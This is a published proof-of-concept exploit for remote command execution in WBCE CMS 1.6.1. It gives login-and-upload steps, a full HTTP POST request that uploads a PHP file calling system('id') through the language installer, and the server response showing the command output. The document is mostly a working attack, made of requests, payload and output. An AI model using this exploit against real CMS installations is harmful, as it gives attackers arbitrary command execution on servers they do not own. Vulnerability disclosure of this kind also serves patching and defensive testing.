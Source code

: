 # Exploit Title: WBCE CMS Version 1.6.1 Remote Command Execution
## Date: 30/11/2023
## Exploit Author: tmrswrr
## Vendor Homepage: [https://wbce-cms.org/](https://wbce-cms.org/)
## Software Link: [WBCE CMS 1.6.1](https://github.com/WBCE/WBCE_CMS/archive/refs/tags/1.6.1.zip)
## Version: 1.6.1
## Tested on: [WBCE_CMS - Softaculous](https://www.softaculous.com/apps/cms/WBCE_CMS)

### POC:

1. Login with admin credentials and click on Add-ons.
2. Navigate to Language > Install Language > [Installation Link](https://demos6.softaculous.com/WBCE_CMSgn4fqnl8mv/admin/languages/index.php).
3. Upload `upgrade.php` with the content `<?php echo system('id'); ?>`, then click install > [Install Link](https://demos6.softaculous.com/WBCE_CMSgn4fqnl8mv/admin/languages/install.php).
4. The command execution result will be displayed: 

uid=1000(soft) gid=1000(soft) groups=1000(soft)
uid=1000(soft) gid=1000(soft) groups=1000(soft)



### Post Request:

```http
POST /WBCE_CMSgn4fqnl8mv/admin/languages/install.php HTTP/1.1
Host: demos6.softaculous.com
Cookie: [cookie values]
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://demos6.softaculous.com/WBCE_CMSgn4fqnl8mv/admin/languages/index.php
Content-Type: multipart/form-data; boundary=---------------------------86020911415982314764024459
Content-Length: 522
Origin: https://demos6.softaculous.com
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="formtoken"

5d3c9cef-003aaa0a62e1196ebda16a7aab9a0cf881b9370c
-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="userfile"; filename="upgrade.php"
Content-Type: application/x-php

<?php echo system('id'); ?>

-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="submit"


-----------------------------86020911415982314764024459--```

### Response:

```<!-- ################### Up from here: Original Code from original template ########### -->

<!-- senseless positioning-table: needed for old modules which base on class td.content -->
<div class="row" style="overflow:visible">
<div class="fg12">
<table id="former_positioning_table">
<tr>
    <td class="content">
uid=1000(soft) gid=1000(soft) groups=1000(soft)
uid=1000(soft) gid=1000(soft) groups=1000(soft)
    <div class="top alertbox_error fg12 error-box">
        <i class=" fa fa-2x fa-warning signal"></i>

                    <p>Invalid WBCE CMS language file. Please check the text file.</p>
        
                    <p><a href="index.php" class="button">Back</a></p>```

